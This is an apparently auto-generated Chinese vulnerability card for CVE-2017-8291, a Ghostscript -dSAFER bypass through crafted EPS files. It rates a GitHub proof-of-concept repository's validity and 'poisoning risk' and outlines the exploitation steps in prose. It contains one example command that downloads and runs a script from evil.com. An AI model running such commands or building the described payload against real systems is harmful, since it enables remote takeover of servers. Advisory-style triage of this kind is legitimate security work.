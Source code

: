 ## CVE-2017-8291-Ghostscript远程命令执行

**漏洞编号:** CVE-2017-8291

**漏洞类型:** 远程命令执行

**影响应用:** Ghostscript

**危害等级:** 高危，可能导致服务器完全控制

**影响版本:** 通过 2017-04-26 的 Ghostscript

**利用条件:** 需要目标系统安装 Ghostscript 并且处理EPS文件，通常发生在文件上传或者打印服务中

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2017-8291 漏洞存在于 Artifex Ghostscript 中，允许攻击者绕过 -dSAFER 保护并执行远程命令。该漏洞利用了 .rsdparams 的类型混淆，通过在 EPS 文件中使用包含 '/OutputFile (%pipe%' 子字符串的精心构造的 .eps 文件作为 gs 程序的输入。

**有效性：** 根据漏洞库信息、搜索引擎结果和Exploit-DB链接，该漏洞是真实存在的，并且存在公开的利用代码。提供的POC代码`/tmp/d868cbd22f46c85caf5ffe83836fa19c/README.md`内容过于简单，仅仅包含CVE编号，但参考Exploit-DB（41955）可以找到完整的POC。

**投毒风险：** 提供的README.md文件本身并不包含任何恶意代码，但不能排除在实际利用场景中，攻击者会将恶意命令注入到通过`/OutputFile (%pipe%`执行的shell命令中。例如，利用该漏洞执行`wget http://evil.com/malicious.sh && chmod +x malicious.sh && ./malicious.sh`，从而下载并执行恶意脚本。因此，存在一定的投毒风险，主要体现在攻击者注入的恶意命令中，而非提供的README.md本身。因为缺乏实际的利用代码分析，这里假设存在10%的投毒风险，主要是指利用过程中可能引入的第三方恶意代码。

**利用方式：**
1.  **构造恶意的 EPS 文件：**  创建一个包含 '/OutputFile (%pipe%' 子字符串的 EPS 文件，利用 .rsdparams 类型混淆，允许执行任意命令。
2.  **利用 `gs` 命令处理 EPS 文件：**  使用 Ghostscript 的 `gs` 命令处理该 EPS 文件。
3.  **绕过 `-dSAFER` 保护：**  通过该漏洞绕过 Ghostscript 的 `-dSAFER` 保护机制。
4.  **执行远程命令：**  `/OutputFile (%pipe%`会将后面的字符串作为命令执行。
5.  **命令注入：**  攻击者可以将恶意指令注入到命令执行流程中，例如反弹shell，下载执行恶意程序。

**项目地址:** [shun1403/CVE-2017-8291](https://github.com/shun1403/CVE-2017-8291)

**漏洞详情:** [CVE-2017-8291](https://nvd.nist.gov/vuln/detail/CVE-2017-8291)